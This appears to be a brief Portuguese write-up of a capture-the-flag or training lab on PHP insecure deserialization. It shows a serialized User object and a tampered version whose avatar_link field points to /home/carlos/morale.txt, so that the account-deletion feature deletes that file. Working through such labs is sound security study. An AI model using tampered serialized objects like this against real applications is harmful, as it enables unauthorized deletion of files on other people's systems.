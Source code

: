 #ctf 

A funcionalidade de deletar usuário também deleta o avatar do usuário, no diretório passado no `avatar_link`:

```PHP
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"niplrccj6ckd4uviyi58v89p3jzskh41";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

O objetivo do lab é deletar o arquivo `morale.txt` do diretório home de Carlos.

```PHP
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"niplrccj6ckd4uviyi58v89p3jzskh41";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```